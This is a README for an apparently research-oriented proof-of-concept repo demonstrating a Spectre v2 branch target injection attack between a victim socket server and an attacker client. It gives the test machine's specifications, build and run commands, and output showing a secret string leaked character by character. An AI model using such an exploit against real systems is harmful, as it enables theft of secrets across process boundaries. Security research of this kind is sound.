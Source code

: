 # About

This repo provides proof-of-concept code that exploits a spectre v2 (branch target injection) vulnerability in a server and demonstrates a cross-process attack.

Original client (attacker) and server (victim) code is from https://www.binarytides.com/server-client-example-c-sockets-linux/. The spectre v2 bits are inspired from https://github.com/vusec/blindside and https://github.com/Anton-Cao/spectrev2-poc.git.

The PoC is tested on the following machine:

```
$ cat /proc/cpuinfo | head -27
processor : 0
vendor_id : GenuineIntel
cpu family  : 6
model   : 158
model name  : Intel(R) Xeon(R) CPU E3-1270 v6 @ 3.80GHz
stepping  : 9
microcode : 0x48
cpu MHz   : 4014.770
cache size  : 8192 KB
physical id : 0
siblings  : 8
core id   : 0
cpu cores : 4
apicid    : 0
initial apicid  : 0
fpu   : yes
fpu_exception : yes
cpuid level : 22
wp    : yes
flags   : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush dts acpi
mmx fxsr sse sse2 ss ht tm pbe syscall nx pdpe1gb rdtscp lm constant_tsc art arch_perfmon pebs bts
rep_good nopl xtopology nonstop_tsc aperfmperf eagerfpu pni pclmulqdq dtes64 monitor ds_cpl vmx smx
est tm2 ssse3 sdbg fma cx16 xtpr pdcm pcid sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes
xsave avx f16c rdrand lahf_lm abm 3dnowprefetch epb intel_pt tpr_shadow vnmi flexpriority ept vpid
fsgsbase tsc_adjust bmi1 hle avx2 smep bmi2 erms invpcid rtm mpx rdseed adx smap clflushopt xsaveopt
xsavec xgetbv1 xsaves dtherm ida arat pln pts hwp hwp_notify hwp_act_window hwp_epp
bugs    :
bogomips  : 7600.00
clflush size  : 64
cache_alignment : 64
address sizes : 39 bits physical, 48 bits virtual
power management:

$ uname -a
Linux hecate 4.8.0-39-generic #42-Ubuntu SMP Mon Feb 20 11:47:27 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:  Ubuntu 16.04.7 LTS
Release:  16.04
Codename: xenial

$ gcc --version
gcc (Ubuntu 5.4.0-6ubuntu1~16.04.12) 5.4.0 20160609
Copyright (C) 2015 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

# Instructions

Preparation:

```
$ make
```

In terminal 1:

```
$ ./victim
obj_normal.buf = aaaaaa
obj_priv.buf = secret
Socket created
bind done
Waiting for incoming connections...
Connection accepted
Client disconnected
```

In terminal 2:

```
$ ./attacker
Socket created
Connected

most hit char: 115 ('s') - 998 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char: 101 ('e') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char:  99 ('c') - 999 hits;  second most hit char: 207 ('?') -   1 hits
most hit char: 114 ('r') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char: 101 ('e') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char: 116 ('t') - 999 hits;  second most hit char:  -1 ('?') -  -1 hits
most hit char:   0 ('?') - 999 hits;  second most hit char:   1 ('?') -  64 hits
```

